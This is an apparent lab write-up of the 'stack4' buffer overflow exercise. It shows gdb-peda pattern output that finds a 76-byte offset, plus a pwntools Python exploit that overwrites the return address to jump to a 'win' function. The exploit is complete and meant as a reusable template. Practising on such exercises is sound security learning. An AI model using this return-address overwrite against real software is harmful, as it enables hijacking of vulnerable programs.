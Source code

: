 
## Finding Buffer Size Dynamically    
You can use `pattern_create 100 file & r < file` in gdb and you should get a seg fault. 
```language-gdb
Stopped reason: SIGSEGV
0x41344141 in ?? ()
    gdb-peda$ pattern search
    Registers contain pattern buffer:
    EIP+0 found at offset: 76
```
So the buffer size can be found out frmo this info from the line **EIP+0 found at offset: 76** where 76 is the size of the buffer. So fill the buffer and then add the return address at the end

## Exploit Code
```language-python
from pwn import *
import time
#===============    Configuration    ================"
#Allow ptrace for gdb
# sudo sysctl -w kernel.yama.ptrace_scope=0
pwnName ="stack4"
local   = True
libName = ''
host, port  = '', 0000
context.arch    ='i386'
context.os  = "linux"
context.log_level="DEBUG"
context.terminal= [ 'tmux' , 'splitw' , '-h' ]
#===================================================="
try:
	libc    = ELF(libName)
except:
	pass
try:
	elf     = ELF(pwnName)
	context.binary  = elf
except:
	pass
try:
	rop     = ROP([elf, libc])
except:
	pass
if local:
	r = process("./" + pwnName)
	gdb.attach(r, execute="c")
	time.sleep(0.5)
else:
	r = remote(host, port)
def sendToGDB(payload, breakpoint=None):
	if not local:
		return
	cmd = """ b main\n"""
	with open('payload', 'w+') as f:
		f.write(payload)
	gdb.attach(r, execute="c")

#====================================================="
#						Exploit
#======================================================
def makePayload():
	buffSize = 76
	filler = 'a'*buffSize
	returnAddress = p32(0x80483F4) # location of win functon
	payload = filler + returnAddress
	return payload

def sendPayload(payload):
	r.sendline(payload)
	print r.recvline()

if __name__=="__main__":
	payload = makePayload()
	sendPayload(payload)
```

## Running The Exploit
![Tmux is cool][exploit]



[exploit]:  https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png 



## Other Notes
	I wanted to get better at **VIM MASTERRACE** and wanted to create a template exploit python file for all similar exploits. I wanted to press f9, run the python file, and open up a gdb split window in the same terminal. Pwn tools lets you start up a local process and send input to it across a socket. You can also attach gdb to it so you can see if the return address was overwritten,  run pattern stuff as necessary, etc... It took me a while to set it up and get the settings right. See exploit picture to get a feel of what I mean





